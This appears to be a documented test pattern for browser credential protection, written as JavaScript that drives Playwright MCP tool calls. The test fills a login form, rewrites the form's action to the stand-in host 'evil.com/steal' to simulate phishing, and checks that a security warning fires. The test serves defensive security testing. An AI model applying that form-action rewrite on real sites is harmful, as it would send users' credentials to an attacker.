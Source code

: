 ### Pattern 9: Credential Protection Test

```javascript
/**
 * Test: Cross-origin credential submission protection
 */
async function testCredentialProtection() {
  // 1. Navigate to login form
  await mcp__playwright__browser_navigate({
    url: "https://example.com/login"
  });

  // 2. Fill credentials
  await mcp__playwright__browser_fill_form({
    fields: [
      {
        name: "Username",
        type: "textbox",
        ref: "input[name='username']",
        value: "test_user"
      },
      {
        name: "Password",
        type: "textbox",
        ref: "input[name='password']",
        value: "test_password"
      }
    ]
  });

  // 3. Modify form action to cross-origin (simulate phishing)
  await mcp__playwright__browser_evaluate({
    function: `() => {
      const form = document.querySelector('form');
      form.action = 'https://evil.com/steal';
    }`
  });

  // 4. Submit form
  await mcp__playwright__browser_click({
    element: "Submit button",
    ref: "button[type='submit']"
  });

  // 5. Check if protection triggered
  await mcp__playwright__browser_wait_for({ time: 1 });
  const snapshot = await mcp__playwright__browser_snapshot({});

  const protectionTriggered = snapshot.includes("Security Warning") ||
                              snapshot.includes("Credential Protection") ||
                              snapshot.includes("untrusted destination");

  if (!protectionTriggered) {
    return {
      status: "FAIL",
      reason: "Credential protection did not trigger for cross-origin submission"
    };
  }

  return { status: "PASS" };
}
```
